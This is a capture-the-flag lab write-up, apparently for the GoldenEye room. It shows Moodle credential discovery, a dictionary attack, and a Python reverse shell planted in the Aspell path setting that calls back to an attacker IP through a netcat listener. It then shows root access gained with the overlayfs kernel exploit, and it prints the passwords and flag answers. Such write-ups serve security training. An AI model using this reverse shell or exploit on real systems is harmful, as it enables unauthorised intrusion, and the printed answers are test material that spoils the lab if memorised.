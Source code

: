 

#### **TASK-3**

In the above discovered email, there is the `severnaya-station.com` website. To get this working, you need up update your DNS records to reveal it.

If you're on Linux edit your "/etc/hosts" file and add:

<machines ip> severnaya-station.com

****If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file****



**Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir.**


**Try using the credentials you found earlier. Which user can you login as?**

 Ans: `Xenia`

1.png

Have a poke around the site. What other user can you find?

2.png

Ans:  `Doak`

What was this users password?

Let's perform dictionary attack again with Doak as username this time

3.png

Ans: `goat`


Use this users credentials to go through all the services you have found to reveal more emails.



What is the next user you can find from doak?

4.png

dr_doak

What is this users password?

 Answer: 4England!

Take a look at their files on the moodle (severnaya-station.com)

Using dr_doak’s account, we can find a `s3cret.txt` file in `My profile > My private files`.

5.png


Download the attachments and see if there are any hidden messages inside them?


6.png

007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.


Using the information you found in the last task, login with the newly found user.

7.png

The image description  consists  base64 encoded string of admin password decoding it we get

xWinter1995x!

Using the information you found in the last task, login with the newly found user.

Correct Answer

As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

Take a look into Aspell, the spell checker plugin.


_Hint: `Settings->Aspell->Path to aspell` field, add your code to be executed. Then create a new page and “spell check it”._

Open a listener:

$ rlwrap nc -nlvp 4444

Now, from the Configuration panel, enter `spell` in the search. There are 2 settings to modify so that it works:

- Spell engine: PSpellShell
- Path to aspell: your reverse shell


I used a python shell instead of the one set by default.
8.png


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.37",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

Go to `Navigation > My profile > Blog > Add a new entry` and clik on the “Toggle spell checker” icon.


Now you will have a reverse shell

9.png

### **Task 4:Privilege Escalation**

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.


Download the [linuxprivchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

- Download the linuxprivchecker file locally
- Navigate to the file on your file system
- Do: **python -m SimpleHTTPServer 1337** (leave this running)
- On the VM you can now do: wget <your IP>/<file>.py

**OR**

Enumerate the machine manually.



Whats the kernel version?  

ans: 3.13.0-32-generic

10.png


This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

- Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
- Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
- Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
- Make su on overlayfs world writable without changing the owner
- Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
- Execute the modified su binary

You can download the exploit from here: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

11.png

i downloaded the code using searchsploit


Once downloaded the code, I transfered it using python3

12.png


Then I downloaded it in the reverse shell

13.png

Then I made the code to be executable


- **`"s/gcc/cc/g"`**: This part is the `sed` substitution command.
    
    - **`s`**: This stands for substitute.
    - **`gcc`**: This is the pattern to search for in the file. In this case, `gcc`.
    - **`cc`**: This is the replacement string. In this case, `cc`.
    - **`g`**: This is a global flag. It tells `sed` to replace all occurrences of the search pattern in each line, not just the first occurrence.
- **`exploit.c`**: This is the name of the file that `sed` will process.

14.png

Then I ran the program to get root access

15.png

From there I changed directory to /root

the flag was hidden in a file called flag.txt in root directory

16.png
ans:: 568628e0d993b1973adc718237da6e93

Then Visiting the last URL shows a congratulations message with a movie clip of James Bond

17.png